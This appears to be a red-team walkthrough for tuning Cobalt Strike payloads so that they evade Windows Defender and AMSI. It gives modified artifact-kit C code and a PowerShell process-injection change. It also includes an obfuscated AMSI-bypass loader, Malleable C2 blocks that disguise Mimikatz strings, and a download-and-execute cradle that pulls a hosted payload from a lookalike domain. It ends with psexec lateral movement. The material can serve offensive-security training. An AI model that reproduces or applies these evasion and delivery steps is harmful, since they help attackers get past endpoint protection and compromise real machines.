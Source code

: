 
### Artifacts

Open the artifacts folder (`arsenal-kit\kits\artifact`) within Visual Studio Code and open up `src-common/patch.c`

On line ~45 modify the for loop. **This is for the svc exe payloads.**
```c
x = length;
while(x--) {
  *((char *)buffer + x) = *((char *)buffer + x) ^ key[x % 8];
}
```

On line ~116 modify the other for loop. **This is for the normal exe payloads.**
```c
int x = length;
while(x--) {
  *((char *)ptr + x) = *((char *)buffer + x) ^ key[x % 8];
}
```

Save the changes (**File > Save**) and close the folder (**File > Close Folder**).

Run **build.sh** to build the new artifacts.
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact

./build.sh mailslot VirtualAlloc 351363 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts
```

>The stage size tends to vary between CS releases as features get added or removed from Beacon.  Always run build.sh without arguments first to see what the minimum stage sizes are.

Import the `artifact.cna` file into the Cobalt Strike script manager - `C:\Tools\cobaltstrike\custom-artifacts\mailslot`

---

### Resources

Open the resource folder in the arsenal-kit and build new resources
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource

./build.sh /mnt/c/Tools/cobaltstrike/custom-resources
```

Open up the custom-resources folder in VS code

> Edit **template.x64.ps1** with the following

Rename **ALL**`func_get_proc_address` on line **3** to (Use Edit > Replace): 
```powershell
get_proc_address
```

Rename **ALL** `func_get_delegate_type` on line **10** to (Use Edit > Replace):
```powershell
get_delegate_type
```

Replace line **32** with:
```powershell
$var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((get_proc_address kernel32.dll WriteProcessMemory), (get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool])))
$ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zero)
```

> Now obfuscate **compress.ps1** 

Use Invoke-Obfuscate to create a unique obfuscated version of the script. Choose anyone except for string obfuscation because of the `%%DATA%%`

```powershell
ipmo C:\Tools\Invoke-Obfuscation\Invoke-Obfuscation.psd1
Invoke-Obfuscation

Invoke-Obfuscation> SET SCRIPTBLOCK [compress.ps1 contents]
```

Or use this plus the AMSI Bypass:
```powershell
SET-itEm  VarIABLe:WyizE ([tyPe]('conVE'+'Rt') ) ;  seT-variAbLe  0eXs  (  [tYpe]('iO.'+'COmp'+'Re'+'S'+'SiON.C'+'oM'+'P'+'ResSIonM'+'oDE')) ; ${s}=nEW-o`Bj`eCt IO.`MemO`Ry`St`REAM(, (VAriABle wYIze -val  )::"FR`omB`AsE64s`TriNG"("%%DATA%%"));i`EX (ne`w-`o`BJECT i`o.sTr`EAmRe`ADEr(NEw-`O`BJe`CT IO.CO`mPrESSi`oN.`gzI`pS`Tream(${s}, ( vAriable  0ExS).vALUE::"Dec`om`Press")))."RE`AdT`OEnd"();
```

Import the `resources.cna` file into the Cobalt Strike script manager - `C:\Tools\cobaltstrike\custom-resources\`

---

### Malleable C2

SSH into the Cobalt Strike instance and open up the profiles folder
```bash
cd /opt/cobaltstrike/profiles
```

Edit **default.profile** and add the following stage block:
```bash
stage {
   set userwx "false";
   set module_x64 "Hydrogen.dll";  # use a different module if you like
   set copy_pe_header "false";
}
```

Add the following post-ex block:
```bash
post-ex {
  set amsi_disable "true";
  set spawnto_x64 "%windir%\\sysnative\\svchost.exe";
  set obfuscate "true";
  set cleanup "true";

  set pipename "dotnet-diagnostic-#####, ########-####-####-####-############";

  transform-x64 {
      strrep "ReflectiveLoader" "NetlogonMain";
      strrepex "ExecuteAssembly" "Invoke_3 on EntryPoint failed." "Assembly threw an exception";
      strrepex "PowerPick" "PowerShellRunner" "PowerShellEngine";

      # Mimikatz evasion
      strrep "\\\\.\\pipe\\mimikatz" "\\\\.\\pipe\\rpcnet";
      strrep "powershell_reflective_mimikatz" "ps_shell_module";
      strrep "mimikatz(powershell)" "opseckat(pwsh)";
      strrep "mimikatz.log" "diagdata.log";
      strrep "mimikatz_x64.compressed" "binmod64.pack";
      strrep "mimikatz_dpapi_cache.ndr" "vault_cache.ndr";
      strrepex "Mimikatz" "ERROR kuhl_m_dpapi_chrome" "INFO dpapi_module";
      strrepex "Mimikatz" "ERROR kuhl_m_lsadump_getUsersAndSamKey" "WARN lsa_getusers_samkey";
      strrepex "Mimikatz" "ERROR kuhl_m_lsadump_getComputerAndSyskey" "INFO lsa_getcomputer_syskey";
      strrepex "Mimikatz" "ERROR kuhl_m_lsadump_lsa_getHandle" "WARN lsa_gethandle";
      strrepex "Mimikatz" "ERROR kuhl_m_lsadump_enumdomains_users" "WARN enum_domains_users";
      strrepex "Mimikatz" "ERROR mimikatz_doLocal" "INFO module_doLocal";
  }
}
```

Add the following process-inject block:
```bash
process-inject {
  execute {
      NtQueueApcThread-s;
      NtQueueApcThread;
      SetThreadContext;
      RtlCreateUserThread;
      CreateThread;
  }
}
```

Save changes and restart the Team Server
```powershell
sudo /usr/bin/docker restart cobaltstrike-cs-1
```

> If the container fails to restart properly use `sudo /usr/bin/docker logs cobaltstrike-cs-1` to see the profile errors.

---

### Test

Build new payloads:
- Go to **Payloads > Windows Stageless Generate All Payloads**

Test stageless payload against ThreatCheck
```powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\artifact64big.exe
```

Test PowerShell payload against ThreatCheck
```powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\template.x64.ps1 -e amsi
```


Host a 64-bit PowerShell payload.
1. Go to **Site Management > Host File**
2. File: _C:\Payloads\http_x64.ps1_
3. Local URI: /test
4. Local Host: www.bleepincomputer.com

Verify that Defender is enabled and execute up on test host
```powershell
(Get-MpPreference).DisableRealtimeMonitoring

iex(iwr "http://www.bleepincomputer.com/deals" -useb)
```

Verify Defender is on on remote host
```powershell
remote-exec winrm lon-ws-1 (Get-MpPreference).DisableRealtimeMonitoring
```

Change `spawnto` for the service payload
```powershell
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Now lateral movement can be used with the service payload
```powershell
jump psexec64 lon-ws-1 smb
```
